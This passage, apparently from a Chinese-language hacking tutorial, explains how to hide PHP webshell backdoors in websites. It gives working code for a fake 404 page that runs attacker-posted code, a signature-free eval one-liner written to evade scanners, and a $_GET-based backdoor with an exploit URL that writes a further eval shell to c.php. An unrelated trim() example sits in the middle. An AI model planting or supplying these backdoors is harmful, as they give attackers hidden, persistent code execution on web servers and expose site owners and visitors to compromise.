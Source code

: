 phpinfo会被成功执行了。

## 3.利用404页面隐藏PHP小马

```php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
<?php
@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
header('HTTP/1.1 404 Not Found');
?>
```

404页面是网站常用的文件，一般建议好后很少有人会去对它进行检查修改，这时我们可以利用这一点进行隐藏后门

## 4.无特征隐藏PHP一句话

```php
<?php
session_start();
$_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
$_SESSION['theCode']&&preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');
?>
```

将$_POST['code']的内容赋值给$_SESSION['theCode']，然后执行$_SESSION['theCode']，亮点是没有特征码。用扫描工具来检查代码的话，是不会报警的，达到目的了。

**trim函数**

移除字符串两侧的字符（"Hello" 中的 "He" 以及 "World" 中的 "d!"）：

```php
<?php
$str = "Hello World!";
echo $str . "<br>";
echo trim($str,"Hed!");
?>
```

**超级隐蔽的PHP后门**

```php
<?php $_GET[a]($_GET[b]);?>
```

仅用GET函数就构成了木马；

利用方法：

``` php
?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w% 29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```
